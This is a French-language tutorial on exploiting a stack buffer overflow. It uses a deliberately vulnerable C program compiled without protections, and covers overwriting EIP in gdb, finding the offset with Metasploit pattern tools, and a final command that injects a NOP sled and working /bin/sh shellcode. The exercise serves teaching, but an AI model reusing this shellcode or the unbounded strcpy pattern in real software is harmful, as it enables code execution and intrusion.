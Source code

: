 ```c
#include <stdio.h>
#include <string.h>

void vuln(char *arg){
	char buffer[20];
	strcpy(buffer, arg);
	printf("\n Hello %s ! \n", buffer);
}  

int main(int argc, char **argv){
	vuln(argv[1]);
	return 0;
}
```

```sh
gcc -z execstack -fno-stack-protector -m32 sayHello.c -o run
```

---

**Take Controle of EIP**

Avec `gdb`, envoyer un nombre important de 'A' au programme jusqu'a obtenir une erreur soit (`SIGSEGV, Segementation fault`)

```c
(gdb) run AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

A partir des informations du registre `info registers`, verifier que nous avons bien écrasé sur `EIP` et qu'il a les valeurs `A` soit `0x41414141`

---

**Finding the offset**

Maintenant il faut chercher le `offset` c'est la taille exact qu'il faut pour écrasé sur `EIP`

```c
msf-pattern_create -l 100
```

Executer la sortie de la commande dans `gdb` 

```c
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4A...
```

Verifier que `EIP` a une nouvelle valeur, prendre cette valeur et trouver l'`offset` correspondant.

```c
msf-pattern_offset -q {EIP_VALUE}
```

Ceci vas retourner une valeur qui sera la taille de note offset (`size-offset`)

Donc il nous faut `size-offset` caractere suivie de notre shellcode. 
En gros tout ce qui se trouve au dela de la taille de notre offset vas etre executer en memoire dans `EBP`

En suite

```c
(gdb) run $(python2 -c "print 'A'*{size-offset}")
```

Le programme vas planter et on verifie le registrer `ESP`

```c
(gdb) info frame
(gdb) print $esp 
# => 0xffffcee0
```

---

**Generating Shellcode**

Il faut ecrire la valeur de ESP en envers soit `\xe0\xce\xff\xff` -> {`esp-reverse}

```c
\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
```

> **Executer le programme pour obtenir un shell**

```c
./run $(python2 -c "print 'A'*{size-offset} + '{esp-reverse}' + '\x90'*40 + '{shellcode}'")
```

> [!NOTE] Si nous avons les caracteres `1�Ph//shh/bin��PS��` il faut augmenter le nombre `NOPs`


